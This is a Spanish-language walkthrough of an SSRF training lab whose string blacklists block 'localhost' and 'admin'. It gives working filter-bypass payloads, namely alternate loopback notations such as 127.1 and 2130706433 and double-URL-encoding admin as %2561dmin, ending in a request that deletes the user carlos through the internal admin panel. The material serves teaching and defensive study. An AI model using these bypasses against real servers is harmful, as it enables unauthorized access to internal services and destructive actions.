






# 🌐 SSRF con filtro basado en blacklist

## 📄 Descripción del laboratorio

Este laboratorio presenta una vulnerabilidad de **Server-Side Request Forgery (SSRF)** protegida por dos defensas débiles basadas en **blacklist**.

El objetivo es **eludir ambos filtros**, acceder a la interfaz interna de administración en `http://localhost/admin` y eliminar al usuario `carlos`.

🎯 **Objetivo del laboratorio:**

* Forzar al servidor a realizar una petición interna a:

```
/admin/delete?username=carlos
```


## 📚 Teoría

El laboratorio intenta mitigar SSRF mediante **blacklists basadas en cadenas**, pero estas defensas son insuficientes.

### 📌 Filtros implementados

1️⃣ **Blacklist de hosts internos**

Bloquea cadenas como:

```
localhost
127.0.0.1
::1
0.0.0.0
```

2️⃣ **Blacklist de rutas sensibles**

Bloquea cualquier URL que contenga:

```
/admin
admin
```

### 📌 Por qué fallan estos filtros

🔎 **IPs no normalizadas**

El filtro compara **strings**, pero no interpreta direcciones IP reales.

Existen múltiples representaciones válidas de `127.0.0.1`:

```
127.1
127.0.1
127.000.000.001
0x7f000001
2130706433
```

El sistema operativo las interpreta como **localhost**, pero el filtro no.

🔎 **Falta de decodificación recursiva**

El filtro:

* No decodifica URLs antes de validar
* No aplica validación tras decodificar

Esto permite **doble URL encoding**.

Ejemplo:

```
admin → %2561dmin
```

Decodificación en el backend:

```
%25 → %
%61 → a
```

Resultado final:

```
/admin
```

### 📌 Estrategia de bypass

Se combinan dos técnicas:

* Usar una **IP alternativa de localhost** (`127.1`)
* Usar **doble URL encoding** para ocultar `admin`


## 📝 Práctica

### 1️⃣ Interceptando la petición vulnerable

Abrimos cualquier producto y usamos **Check stock**.

Interceptamos la petición con **Burp Suite** y la enviamos al **Repeater**.

Petición típica:

```http
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```




### 2️⃣ Probando los bloqueos

Intentos directos bloqueados:

```
http://localhost/admin
http://127.0.0.1/admin
```

<br>

Probamos una IP alternativa:

```
http://127.1
```

<br>

Respuesta:

```
200 OK
```

Esto confirma que `127.1` **no está en la blacklist**.

Sin embargo:

```
http://127.1/admin
```

Es bloqueado porque el filtro detecta la palabra `admin`.


### 3️⃣ Bypass con doble encoding

Construimos `admin` con doble encoding:

```
admin → %2561dmin
```


### 4️⃣ Acceso al panel admin interno

Probamos la siguiente URL:

```http
stockApi=http://127.1/%2561dmin
```

<br>

Respuesta:

```
200 OK
```

Se devuelve el **HTML del panel de administración**.

El filtro no detecta `admin`, pero el backend lo decodifica correctamente.


### 5️⃣ Eliminando al usuario carlos

El endpoint administrativo es:

```
/admin/delete?username=carlos
```

Construimos la URL final:

```http
stockApi=http://127.1/%2561dmin/delete?username=carlos
```

Enviamos la petición desde **Repeater**.




### 6️⃣ Resultado final

La respuesta devuelve un **302 redirect** o un mensaje de éxito.

El servidor vulnerable ejecuta internamente:

```
http://127.1/admin/delete?username=carlos
```

tras la doble decodificación.

El usuario **carlos ha sido eliminado**.

✅ **Laboratorio resuelto.**


